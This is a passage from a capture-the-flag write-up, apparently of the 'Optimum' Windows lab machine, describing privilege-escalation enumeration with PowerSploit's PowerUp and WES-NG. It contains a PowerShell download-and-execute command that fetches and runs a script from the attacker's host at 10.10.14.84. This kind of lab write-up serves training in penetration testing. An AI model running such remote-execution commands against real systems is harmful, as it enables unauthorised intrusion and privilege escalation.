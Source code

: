 After exploring for a while and not finding much information about any misconfiguration, vulnerability that would allow me to **Escalate Privileges**, I'm going to resort to the **[PowerShellMafia](https://github.com/PowerShellMafia/PowerSploit){:target="_blank"}** script that automates the search for possible attack vectors. Once I download it on my attacking machine, I modify the script so that when I transfer it to the target machine it automatically executes all the functions of the module in the search. But the only interesting thing it finds is the password of the current compromised account, so I'm just going to save it, since at the moment it doesn't allow me to perform any favorable action to continue the **Engagement**.

> **[PowerSploit](https://github.com/PowerShellMafia/PowerSploit){:target="_blank"}** is a collection of **Microsoft PowerShell** modules that can be used to aid penetration testers during all phases of an assessment. PowerSploit is comprised of the following modules and scripts.

> **Attacker Machine**:

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Privesc/PowerUp.ps1
nvim PowerUp.ps1
cat PowerUp.ps1 | tail -n 3
# Invoke-AllChecks
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
start /b powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.84/PowerUp.ps1')
```

<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

It is time to turn to another tool widely used in the **Engagement** of Windows machines, the resource in **Github** **[bitsadmin](https://github.com/bitsadmin/wesng){:target="_blank"}** (**wesgn**) that just by providing information of the **Operating System** can find possible vulnerabilities. First I must update the database that needs the script and then I can run it, unfortunately the information it gives is <ins>very extensive</ins> and it is like looking for a needle in a haystack, I will have to use another tool that gives me more accurate information.

> **WES-NG** is a tool based on the output of Windows' systeminfo utility which provides the list of vulnerabilities the **OS** is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS between **Windows XP** and **Windows 11**, including their **Windows Server** counterparts, is supported.

> **Attacker Machine**:
